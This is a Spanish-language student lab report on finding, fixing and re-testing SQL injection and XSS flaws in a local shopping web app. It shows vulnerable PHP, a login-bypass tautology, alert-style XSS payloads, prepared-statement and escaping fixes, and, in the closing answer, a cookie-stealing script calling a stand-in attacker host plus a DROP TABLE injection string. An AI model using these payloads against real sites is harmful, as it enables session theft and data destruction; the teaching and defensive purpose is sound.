







# Fase 3 — Ataques de Inyección: SQLi y XSS (Explotación, Mitigación y Re-Test)

## Guía Práctica APE Nro. 002 — Software Security
**Unidad 1:** R1. Diseña e implementa software bajo los principios básicos de estándares seguros.  
**Integrantes:** Bradley Alexander Poma Vera, Estefania Carolina Torres Balcazar, Andersson Leandro Ambuludi Gomez.  
**Ciclo y Paralelo:** 8vo "A"  
**Docente:** Ing. Valeria Herrera Salazar  

---

## 1. Introducción y Alcance

La presente práctica documenta el ciclo completo de auditoría técnica **Hallazgo → Mitigación → Verificación (Re-Test)** frente a vulnerabilidades de inyección en la aplicación web *Online Shopping System*:
1. **SQL Injection (SQLi):** Manipulación de consultas SQL mediante entradas no saneadas en formularios de inicio de sesión (`login.php`), registro (`register.php`), consulta de pedidos (`myorders.php`) y visualización de productos por identificador (`product.php`).
2. **Cross-Site Scripting (XSS Reflejado y Almacenado):** Inyección e interpretación indebida de código JavaScript malicioso en el navegador a través de formularios de reseñas (`review_action.php`, `review.php`) y renderizado de catálogos.

Las pruebas de explotación controlada se realizaron en el entorno de desarrollo local controlado y en laboratorios autorizados (DVWA), empleando payloads mínimos que evidencian la falla sin generar denegación de servicio ni daños colaterales.

---

## 2. Explotación Controlada — El "Antes" (Fase Vulnerable)

### 2.1 SQL Injection (SQLi)

#### A. Prueba de Comilla Simple (`'`)
- **Superficie evaluada:** Formulario de inicio de sesión (`login.php`) y parámetro GET `p` en `product.php`.
- **Payload inyectado:** `'`
- **Mecánica del fallo:** La aplicación original concatenaba directamente la variable `$_POST['email']` dentro de la consulta SQL:
  ```php
  // CÓDIGO VULNERABLE ANTERIOR
  $sql = "SELECT * FROM user_info WHERE email = '$email' LIMIT 1";
  $run_query = mysqli_query($con, $sql);
  ```
  Al ingresar una comilla simple (`'`), se rompe la sintaxis del comando SQL, dejando una comilla abierta sin cerrar (`WHERE email = ''' LIMIT 1`), provocando un error fatal en MariaDB/MySQL que expone la estructura interna de la consulta.



*Figura 1: Error fatal de sintaxis SQL en login.php al inyectar comilla simple ('), confirmando la vulnerabilidad de inyección SQL.*

---

#### B. Prueba de Tautología (`' OR '1'='1' -- `)
- **Superficie evaluada:** Campo de autenticación de correo (`login.php`).
- **Payload inyectado:** `' OR '1'='1' -- `
- **Contraseña suministrada:** `cualquier_clave_falsa`
- **Mecánica del fallo:** Al inyectarse la tautología, la consulta generada en el servidor fue:
  ```sql
  SELECT * FROM user_info WHERE email = '' OR '1'='1' -- ' LIMIT 1;
  ```
  Dado que `'1'='1'` siempre es verdadero (`TRUE`), la cláusula `WHERE` evalúa como exitosa para cualquier registro. La secuencia `-- ` comenta el resto de la instrucción, anulando el delimitador de cierre. La base de datos devuelve el primer usuario existente en la tabla (`user_id = 1`), permitiendo el **bypass completo de autenticación** e iniciando una sesión válida en el sistema sin conocer la contraseña legítima.



*Figura 2: Bypass de autenticación exitoso mediante tautología SQLi, accediendo ilegítimamente como usuario administrador.*

---

### 2.2 Cross-Site Scripting (XSS Reflejado y Almacenado)

- **Superficie evaluada:** Formulario de reseñas de productos (`product.php` y `review_action.php`).
- **Payload inyectado:** `<script>alert(1)</script>`
- **Payloads complementarios probados:** ``, `<svg onload=alert(1)>`
- **Mecánica del fallo:** La aplicación recibía los campos `$_POST['name']` y `$_POST['review']`, imprimiéndolos directamente en el DOM mediante `echo` sin codificación HTML ni sanitización previa:
  ```php
  // CÓDIGO VULNERABLE ANTERIOR
  echo '<div class="review-body"><p>' . $_POST['review'] . '</p></div>';
  ```
  El navegador cliente interpreta los caracteres `<` y `>` como etiquetas de apertura y cierre de marcado HTML, ejecutando de inmediato el script JavaScript embebido en el contexto de seguridad del usuario autenticado.



*Figura 3: Ejecución de la ventana modal alert(1) tras inyectar payload <script>alert(1)</script> en el formulario de reseñas.*

---

## 3. Mitigación en Código Fuente

Para remediar definitivamente las vulnerabilidades identificadas, se aplicaron las mejores prácticas de codificación segura recomendadas por OWASP (separación estricta de código y datos, tipado estricto y codificación en el contexto de salida).

### 3.1 Mitigación contra SQL Injection: Consultas Preparadas (Prepared Statements)

#### A. Autenticación Segura en `login.php`
Se reemplazó la concatenación directa de cadenas por el uso de `mysqli_prepare()` y `mysqli_stmt_bind_param()` con el tipado seguro `"s"` (string):

```php
// MITIGACIÓN APLICADA EN login.php (Líneas 23-28)
$email = $_POST["email"];
$password = $_POST["password"];

// Preparación de la consulta con marcador de posición posicional (?)
$stmt = mysqli_prepare($con, "SELECT * FROM user_info WHERE email = ? LIMIT 1");
if ($stmt === false) {
    throw new RuntimeException('Error al preparar la consulta de autenticación.');
}

// Enlace de parámetros: el contenido del usuario es tratado estrictamente como DATO
mysqli_stmt_bind_param($stmt, "s", $email);
mysqli_stmt_execute($stmt);
$run_query = mysqli_stmt_get_result($stmt);
$row = mysqli_fetch_array($run_query);
```

#### B. Protección de Historial en `myorders.php`
Se enlazó el identificador de sesión `$_SESSION["uid"]` mediante tipo entero `"i"`:

```php
// MITIGACIÓN APLICADA EN myorders.php (Líneas 32-40)
$stmt_orders = mysqli_prepare(
    $con,
    "SELECT c.order_id, a.product_id, a.product_title,
            a.product_price, a.product_image, b.qty, b.amt, c.total_amt
       FROM products a, order_products b, orders_info c
      WHERE a.product_id = b.product_id
        AND c.user_id = ?
        AND b.order_id = c.order_id
      ORDER BY c.order_id DESC"
);
mysqli_stmt_bind_param($stmt_orders, "i", $_SESSION["uid"]);
mysqli_stmt_execute($stmt_orders);
$query = mysqli_stmt_get_result($stmt_orders);
```

#### C. Validación Estricta de Parámetros en `product.php`
Se implementó `filter_var()` con la bandera `FILTER_VALIDATE_INT`. Si el parámetro `p` contiene caracteres no numéricos o comillas, el servidor finaliza la ejecución retornando un código de estado `HTTP 400 Bad Request` antes de invocar la consulta preparada:

```php
// MITIGACIÓN APLICADA EN product.php (Líneas 25-32)
$product_id = filter_var($_GET['p'], FILTER_VALIDATE_INT);
if ($product_id === false || $product_id < 1) {
    http_response_code(400);
    exit('Invalid product identifier.');
}

$stmt_product = mysqli_prepare($con, "SELECT * FROM products WHERE product_id = ?");
mysqli_stmt_bind_param($stmt_product, "i", $product_id);
mysqli_stmt_execute($stmt_product);
```

---

### 3.2 Mitigación contra XSS: Escapado de Salida Contextual y Cabeceras CSP

#### A. Codificación de Entidades HTML en `review_action.php`
Se implementó `htmlspecialchars()` con los parámetros obligatorios `ENT_QUOTES` (para convertir tanto comillas simples como dobles) y juego de caracteres `'UTF-8'`:

```php
// MITIGACIÓN APLICADA EN review_action.php (Líneas 40-52)
$name_safe = htmlspecialchars($name, ENT_QUOTES, 'UTF-8');
$review_safe = htmlspecialchars($review, ENT_QUOTES, 'UTF-8');

echo '
<li>
    <div class="review-heading">
        <h5 class="name">' . $name_safe . '</h5>
        <p class="date">' . date("d M Y") . '</p>
    </div>
    <div class="review-body">
        <p>' . $review_safe . '</p>
    </div>
</li>';
```

#### B. Escapado de Catálogo en `product.php` y `myorders.php`
```php
// Mitigación de XSS almacenado proveniente de base de datos
$product_title_safe = htmlspecialchars($row['product_title'], ENT_QUOTES, 'UTF-8');
$product_image_safe = htmlspecialchars($row['product_image'], ENT_QUOTES, 'UTF-8');
```

#### C. Defensa en Profundidad: Política de Seguridad de Contenido (CSP)
Configurada a nivel de servidor en `.htaccess` y en cabeceras HTTP de `header.php`:
```apache
# Configuración en .htaccess
Header set Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:;"
Header set X-Content-Type-Options "nosniff"
Header set X-Frame-Options "DENY"
```

---

## 4. Verificación / Re-Test — El "Después" (Fase Segura)

Se procedió a re-ejecutar exactamente los mismos vectores de ataque y payloads sobre la aplicación con las mitigaciones activas:

### 4.1 Re-Test de Inyección SQL

| Payload Ensayado | Ubicación | Comportamiento Esperado Post-Mitigación | Resultado de la Verificación |
|---|---|---|---|
| `'` | `login.php` | El motor trata la comilla como dato literal. Cero excepciones de sintaxis SQL. | **Bloqueado:** Mensaje de credenciales inválidas (HTTP 200). |
| `' OR '1'='1' --` | `login.php` | Búsqueda del texto exacto; cero filas encontradas. Sin bypass de autenticación. | **Bloqueado:** Acceso denegado; sesión no creada. |
| `70' OR '1'='1` | `product.php?p=` | `filter_var()` rechaza la cadena al no ser un entero válido. | **Bloqueado:** Respuesta inmediata `HTTP 400 Bad Request`. |



*Figura 4: Re-test de comilla simple: la consulta preparada evita errores de sintaxis y rechaza la entrada de forma controlada.*



*Figura 5: Re-test de tautología: la cláusula lógica no modifica la estructura SQL; bypass bloqueado exitosamente.*



*Figura 6: Validación con filter_var(): payload no numérico rechazado con HTTP 400 antes de cualquier consulta SQL.*

---

### 4.2 Re-Test de Cross-Site Scripting (XSS)

- **Payload Ensayado:** `<script>alert(1)</script>`
- **Resultado de la Verificación:**
  1. El navegador renderiza literalmente la cadena de texto: `<script>alert(1)</script>`.
  2. Al inspeccionar el árbol del DOM, se constata que las etiquetas fueron convertidas en entidades seguras: `&lt;script&gt;alert(1)&lt;/script&gt;`.
  3. No se dispara la ventana modal de alerta ni se ejecuta código JavaScript.
  4. La cabecera CSP bloquea la inserción de scripts inline no autorizados.



*Figura 7: Re-test de XSS: el payload es transformado en entidades HTML seguras y mostrado como texto plano sin ejecución.*

---

## 5. Matriz de Trazabilidad: Hallazgo → Mitigación → Verificación

| ID | Hallazgo Identificado | Archivo y Línea | Mitigación Aplicada | Evidencia de Verificación |
|---|---|---|---|---|
| **H-01** | El campo `email` en login concatenaba variables en la consulta SQL. | `login.php:24` | `mysqli_prepare()` y `mysqli_stmt_bind_param($stmt, "s", $email)` | Comilla `'` y tautología bloqueadas sin error SQL (`sqli-comilla-despues.png`). |
| **H-02** | Registro de usuarios vulnerable a manipulación en el `INSERT` y verificación. | `register.php:120` | Consultas preparadas independientes para validación de email e inserción. | Payloads SQLi no permiten inserciones anómalas ni bypass. |
| **H-03** | Historial de pedidos concatenaba `$_SESSION["uid"]` directamente. | `myorders.php:32` | Consulta preparada con tipado entero estricto `"i"`. | Aislamiento estricto: usuarios solo ven sus propios pedidos. |
| **H-04** | El parámetro `p` aceptaba texto arbitrario y comillas sin validación. | `product.php:25` | `filter_var($_GET['p'], FILTER_VALIDATE_INT)` y `HTTP 400`. | Respuesta `400 Bad Request` ante entradas alteradas (`sqli-parametro-400-despues.png`). |
| **H-05** | Comentarios de reseñas se imprimían directamente en el DOM del navegador. | `review_action.php:45` | `htmlspecialchars(..., ENT_QUOTES, 'UTF-8')` en salida. | `<script>` renderizado como texto literal `&lt;script&gt;` (`xss-reflejado-despues.png`). |
| **H-06** | Títulos e imágenes de productos se renderizaban en atributos HTML sin escape. | `product.php:150` | `htmlspecialchars()` en atributos y textos recuperados de MySQL. | No se rompen atributos `src` ni `title` al cargar datos con comillas. |

---

## 6. Pregunta de Control Nro. 3

> **Las consultas preparadas mitigan la inyección SQL y el escapado de salida mitiga el XSS. ¿Por qué la validación de entrada por sí sola no basta para prevenir ambos tipos de ataque? Explique su respuesta con un ejemplo aplicado a su propio proyecto.**

### Respuesta Técnica y Fundamentada:

La validación de entrada por sí sola **no es suficiente** para prevenir ataques de inyección SQL ni de Cross-Site Scripting porque evalúa los datos únicamente en el momento de su recepción respecto a un formato, tipo o longitud, pero **ignora completamente el contexto de interpretación posterior** donde los datos serán procesados (el motor de base de datos o el motor de renderizado HTML del navegador):

1. **Contexto de Base de Datos (SQL):** Una entrada de texto puede ser perfectamente válida según las reglas de negocio (por ejemplo, el apellido `O'Connor` o un comentario legítimo con comillas), pero si ese valor se concatena directamente en una instrucción SQL, la comilla simple alterará la gramática del intérprete SQL. Las **consultas preparadas** resuelven esto separando la compilación del comando SQL de la transmisión de los parámetros, garantizando que el motor trate los datos siempre como literales, sin importar los caracteres que contengan.
2. **Contexto de Salida en el Navegador (HTML/DOM):** Un dato almacenado válidamente en la base de datos (por ejemplo, un comentario de producto que contiene la frase `Precio < $100 & calidad > promedio`) es una entrada textual legítima. Sin embargo, al enviarse al navegador dentro de un bloque HTML, los caracteres `<` y `>` son interpretados sintácticamente como delimitadores de etiquetas. El **escapado de salida contextual** (`htmlspecialchars`) transforma esos caracteres en entidades seguras (`&lt;`, `&gt;`, `&amp;`), neutralizando la ejecución del código sin corromper el dato original.

#### Ejemplo Aplicado al Proyecto:
En el sistema de reseñas de la tienda (`review_action.php`), un usuario ingresa en el campo de observaciones el siguiente comentario legítimo:
```text
¡Excelente producto! <Calidad Premium> & envío 10/10.
```
- Si aplicáramos únicamente **validación de entrada mediante listas negras** o rechazo de caracteres `<` y `>`, estaríamos bloqueando injustificadamente opiniones legítimas de los clientes.
- Si validamos que el comentario sea una cadena de texto válida (longitud entre 5 y 500 caracteres) y omitimos las consultas preparadas y el escapado de salida:
  - **Riesgo SQLi:** Un atacante podría enviar `Excelente'); DROP TABLE user_info; --`, alterando la sentencia `INSERT` si se usara concatenación.
  - **Riesgo XSS:** Si el atacante ingresa `<script>fetch('http://atacante.com/steal?c='+document.cookie)</script>`, la validación de texto plano podría aceptarlo, y al ser renderizado en la página del producto, robaría las cookies de sesión de todos los usuarios que visiten ese artículo.

**Conclusión:** La validación de entrada define qué datos acepta el sistema, pero **únicamente las consultas preparadas en el destino SQL y el escapado contextual en la salida HTML garantizan la inmunidad frente a inyecciones.**
